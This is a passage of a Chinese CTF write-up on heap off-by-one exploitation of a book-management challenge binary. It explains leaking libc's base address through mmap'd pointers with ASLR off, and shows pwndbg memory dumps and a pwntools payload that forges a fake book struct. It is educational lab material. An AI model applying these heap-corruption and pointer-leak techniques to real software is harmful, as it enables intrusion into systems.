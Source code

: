 由于关闭了aslr，所以libc.so的基地址就不会发生变化了，因为book2的结构体成员的地址所属为mmap申请的空间，由于mmap地址不变、libc.so基地址不变，就会导致book2成员变量中的地址所在位置距离libc.so的偏移不变。那么如果可以通过泄露book2结构体成员变量中的地址的话，减去这个偏移就会得到libc.so的基地址。一旦得到了libc.so的基地址，就可以利用pwntools找到一些可以利用的函数了。

说了这么多，要想达到上面的效果，就要从部署伪造的结构体开始。首先是fake_book_id，如果是替换book1，那么这个fake_book1的id就必须为1，这样才能按照第一个book的形式替代原有的book1.接下来是fake_book1_name，这里我们将指向book2_name的地址，fake_book1_desc指向book2_desc的地址。这样一来我们再一次执行打印功能的时候就会将book2_name和book2_desc的地址打印出来了。

<img src="D:\Desktop\PWN1\堆\堆溢出\堆中的off-by-one.assets\image-20210320233213451.png" alt="image-20210320233213451" style="zoom:67%;" />

之前的：

```
pwndbg> x/32gx 0x0000555555757760
0x555555757760:	0x0000000000000001	0x0000555555757670
0x555555757770:	0x0000555555757690	0x00000000000000c8
0x555555757780:	0x0000000000000000	0x0000000000000031
0x555555757790:	0x0000000000000002	0x00007ffff7fbe010
0x5555557577a0:	0x00007ffff7f9c010	0x0000000000021000
0x5555557577b0:	0x0000000000000000	0x0000000000020851
```

可以看到book2_name在0x00007ffff7fbe010的位置，book2_desc在0x00007ffff7f9c010的位置。

接下来查看伪造结构体前内存地址的内容：

```
pwndbg> x/32gx 0x0000555555757700
0x555555757700:	0x0000000000000000	0x0000000000000000
0x555555757710:	0x0000000000000000	0x0000000000000000
0x555555757720:	0x0000000000000000	0x0000000000000000
0x555555757730:	0x0000000000000000	0x0000000000000000
0x555555757740:	0x0000000000000000	0x0000000000000000
0x555555757750:	0x0000000000000000	0x0000000000000031
0x555555757760:	0x0000000000000001	0x0000555555757670#book1
0x555555757770:	0x0000555555757690	0x00000000000000c8
0x555555757780:	0x0000000000000000	0x0000000000000031
0x555555757790:	0x0000000000000002	0x00007ffff7fbe010#book2
0x5555557577a0:	0x00007ffff7f9c010	0x0000000000021000
0x5555557577b0:	0x0000000000000000	0x0000000000020851
0x5555557577c0:	0x0000000000000000	0x0000000000000000
0x5555557577d0:	0x0000000000000000	0x0000000000000000
0x5555557577e0:	0x0000000000000000	0x0000000000000000
0x5555557577f0:	0x0000000000000000	0x0000000000000000
```

可以看到，内容全为空，接下来进行伪造，

```
log.info("Prepare to construct a fake book...")
payload = 'a' * 0x70 + p64(1) + p64(book2_addr + 8) + p64(book2_addr + 8) + p64(0xffff)
#book2_addr=0x555555757790
edit(1, payload)
#gdb.attach(p)
```
